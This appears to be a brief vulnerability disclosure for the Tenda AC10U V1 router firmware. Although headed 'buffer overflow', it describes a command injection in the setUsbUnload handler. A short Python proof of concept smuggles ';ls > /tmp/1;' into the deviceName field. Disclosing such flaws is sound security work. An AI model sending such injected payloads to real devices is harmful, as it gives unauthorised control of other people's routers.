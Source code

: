 # buffer overflow

## Tenda_AC10U_V1

version: V15.03.06.49

## Description:

There is a command injection in httpd/formsetUsbUnload

## Source:

you may download it from : https://www.tendacn.com/download/detail-3795.html

## Analyse:


![](20.png)

get value from deviceName ,then call doSystemCmd, can execute arbitrary command.




## POC
```
url = "http://192.168.1.13/goform/setUsbUnload"
payload = ';ls > /tmp/1;'

r = requests.post(url, data={'deviceName': payload})
``` 
